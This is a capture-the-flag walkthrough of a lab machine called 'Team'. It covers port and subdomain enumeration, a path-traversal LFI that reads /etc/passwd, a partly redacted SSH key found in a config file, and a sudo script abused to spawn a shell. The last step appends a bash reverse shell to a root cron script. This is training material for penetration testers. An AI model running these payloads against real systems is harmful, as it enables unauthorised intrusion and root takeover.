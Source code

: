 #Team

#Enumeration
```
# cat nmap/initial
# Nmap 7.91 scan initiated Fri Mar  5 16:10:39 2021 as: nmap -sC -sV -oN nmap/initial -vvv -p 22,21,80 10.10.142.20
Nmap scan report for 10.10.142.20
Host is up, received echo-reply ttl 61 (0.15s latency).
Scanned at 2021-03-05 16:10:40 PST for 13s

PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 61 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDRK/xFh/H4lC7shWUUvK9lKxd3VO2OwfsC8LjFEU2CnEUrbVCnzx8jiVp5gO+CVAj63+GXkbIuXpynlQ/4j1dXdVUz/yAZ96cHiCNo6S5ThONoG2g2ObJSviCX2wBXhUJEzW07mRdtx4nesr6XWMj9hwIlSfSBS2iPEiqHfGrjp14NjG6Xmq5hxZh5Iq3dBrOd/ZZKjGsHe+RElAMzIwRK5NwFlE7zt7ZiANrFSy4YD4zerNSyEnjPdnE6/ArBmqOFtsWKZ2p/Wc0oLOP7d6YBwQyZ9yQNVGYS9gDIGZyQCYsMDVJf7jNvRp/3Ru53FMRcsYm5+ItIrgrx5GbpA+LR
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBM4d9TCz3FkEBEJ1VMjOsCrxsbS3YGb7mu9WgtnaFPZs2eG4ssCWz9nWeLolFgvHyT5WxRT0SFSv3vCZCtN86I=
|   256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHUxjoul7JvmqQMtGOuadBwi2mBVCdXhJjoG5x+l+uQn
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Mar  5 16:10:53 2021 -- 1 IP address (1 host up) scanned in 13.59 seconds
```

#Port 80
An ubuntu default page, except for the following
If you see this add 'team.thm' to your hosts!
so we adjust our /etc/hosts file as such

#team.thm
A gobuster directory scan finds us a couple pages but nothing we couldn't find by looking through the page ourselves, so we try and look for subdomains

```
wfuzz -c -f subdomain.txt -Z -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --sc 200,202,204,301,302,307,403 -u"http://team.thm/" -H "Host: FUZZ.team.thm"
```
```
# head subdomain.txt -n 20
Target: http://team.thm/
Total requests: 4989
==================================================================
ID    Response   Lines      Word         Chars          Request
==================================================================
00012:  C=200    373 L       977 W        11366 Ch        "ns2"
00011:  C=200    373 L       977 W        11366 Ch        "ns1"
00010:  C=200    373 L       977 W        11366 Ch        "whm"
00009:  C=200    373 L       977 W        11366 Ch        "cpanel"
00006:  C=200    373 L       977 W        11366 Ch        "smtp"
00001:  C=200     89 L       220 W         2966 Ch        "www"
00003:  C=200    373 L       977 W        11366 Ch        "ftp"
00007:  C=200    373 L       977 W        11366 Ch        "webdisk"
00002:  C=200    373 L       977 W        11366 Ch        "mail"
00004:  C=200    373 L       977 W        11366 Ch        "localhost"
00013:  C=200    373 L       977 W        11366 Ch        "autodiscover"
00015:  C=200    373 L       977 W        11366 Ch        "ns"
00019:  C=200      9 L        20 W          187 Ch        "dev"
00023:  C=200    373 L       977 W        11366 Ch        "forum"
00022:  C=200    373 L       977 W        11366 Ch        "pop3"
```
We quickly find a dev subdomain so lets add this to our hosts file and explore here
```
Site is being built

Place holder link to team share
```
Clicking the link gives us this url
http://dev.team.thm/script.php?page=teamshare.php
so lets test for LFI
http://dev.team.thm/script.php?page=../../../etc/passwd
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
dale:x:1000:1000:anon,,,:/home/dale:/bin/bash
gyles:x:1001:1001::/home/gyles:/bin/bash
ftpuser:x:1002:1002::/home/ftpuser:/bin/sh
ftp:x:110:116:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
```
We can find the user flag in /home/dale/user.txt
Eventually fuzzing using SecLists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt
find us the file /etc/sshd/sshd_config which within contain the following
```
#Dale id_rsa
#-----BEGIN OPENSSH PRIVATE KEY-----
#b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
#NhAAAAAwEAAQAAAYEAng6KMTH3zm+6rqeQzn5HLBjgruB9k2rX/XdzCr6jvdFLJ+uH4ZVE
#NUkbi5WUOdR4ock4dFjk03X1bDshaisAFRJJkgUq1+zNJ+p96ZIEKtm93aYy3+YggliN/W
#oG+RPqP8P6/uflU0ftxkHE54H1Ll03HbN+0H4JM/InXvuz4U9Df09m99JYi6DVw5XGsaWK
#o9WqHhL5XS8lYu/fy5VAYOfJ0pyTh8IdhFUuAzfuC+fj0BcQ6ePFhxEF6WaNCSpK2v+qxP
#zMUILQdztr8WhURTxuaOQOIxQ2xJ+zWDKMiynzJ/lzwmI4EiOKj1/nh/w7I8rk6jBjaqAu
REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED 
#sQD/wqj5cQx+HJ82QXZBtwO9cTtxrL1g10DGDK01H+pmWDkuSTcKGOXeU8AzMoM9Jj0ODb
#mPZgp7FnSJDPbeX6an/WzWWibc5DGCmM5VTIkrWdXuuyanEw8CMHUZCMYsltfbzeexKiur
#4fu7GSqPx30NEVfArs2LEqW5Bs/bc/rbZ0UI7/ccfVvHV3qtuNv3ypX4BuQXCkMuDJoBfg
#e9VbKXg7fLF28FxaYlXn25WmXpBHPPdwAAAMEAxtKShv88h0vmaeY0xpgqMN9rjPXvDs5S
#2BRGRg22JACuTYdMFONgWo4on+ptEFPtLA3Ik0DnPqf9KGinc+j6jSYvBdHhvjZleOMMIH
#8kUREDVyzgbpzIlJ5yyawaSjayM+BpYCAuIdI9FHyWAlersYc6ZofLGjbBc3Ay1IoPuOqX
#b1wrZt/BTpIg+d+Fc5/W/k7/9abnt3OBQBf08EwDHcJhSo+4J4TFGIJdMFydxFFr7AyVY7
#CPFMeoYeUdghftAAAAE3A0aW50LXA0cnJvdEBwYXJyb3QBAgMEBQYH
#-----END OPENSSH PRIVATE KEY-----
```
We format this according and now have a foothold via ssh as dale

#Horizontal Escalation
```
dale@TEAM:~$ sudo -l
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```
looks like we might have sudo permission on a file to possible do some horizontal escalation to the gyles user
```
dale@TEAM:~$ cat /home/gyles/admin_checks
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```
we can see that the date line reads in a variable, error, from user input and then doesn't properly echo it/redirect it to null, so we should be able to spawn a shell 
```
dale@TEAM:~$ sudo -u gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: neyr
Enter 'date' to timestamp the file: /bin/bash
The Date is
whoami
gyles
```
we can fix our shell and procede to try and escalate to root
#Root Escalation
We start by checking gyles home directory for anything interesting
```
gyles@TEAM:/home/gyles$ ls -la
total 48
drwxr-xr-x 6 gyles gyles   4096 Jan 17 19:47 .
drwxr-xr-x 5 root  root    4096 Jan 15 20:21 ..
-rwxr--r-- 1 gyles editors  399 Jan 15 21:52 admin_checks
-rw------- 1 gyles gyles   5639 Jan 17 20:34 .bash_history
-rw-r--r-- 1 gyles gyles    220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 gyles gyles   3771 Apr  4  2018 .bashrc
drwx------ 2 gyles gyles   4096 Jan 15 21:38 .cache
drwx------ 3 gyles gyles   4096 Jan 15 21:38 .gnupg
drwxrwxr-x 3 gyles gyles   4096 Jan 15 21:51 .local
-rw-r--r-- 1 gyles gyles    807 Apr  4  2018 .profile
drwx------ 2 gyles gyles   4096 Jan 15 21:43 .ssh
-rw-r--r-- 1 gyles gyles      0 Jan 17 15:05 .sudo_as_admin_successful
gyles@TEAM:/home/gyles$
```
.ssh just has a known_hosts file, but .bash_history has not been cleared so lets check it out
we see mentions of a /usr/local/bin/main_backup.sh file 
```
gyles@TEAM:/home/gyles$ ls -la /usr/local/bin | grep backup
-rwxrwxr-x  1 root admin   65 Jan 17 20:36 main_backup.sh

gyles@TEAM:/home/gyles$ cat /usr/local/bin/main_backup.sh
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/

gyles@TEAM:/home/gyles$ id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
```
This file is owned by root and may possibly be part of a cronjob given the operations and hint in the room
As gyles we are in the admin group so we can insert a reverse shell here and see if we get a callback on our listener
```
gyles@TEAM:/home/gyles$ cat /usr/local/bin/main_backup.sh
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
bash -c "bash -i >& /dev/tcp/10.13.1.12/4242 0>&1"
```
Sure enough after a little bit we have a reverse shell spawned on our listener and can claim the root flag in the root directory
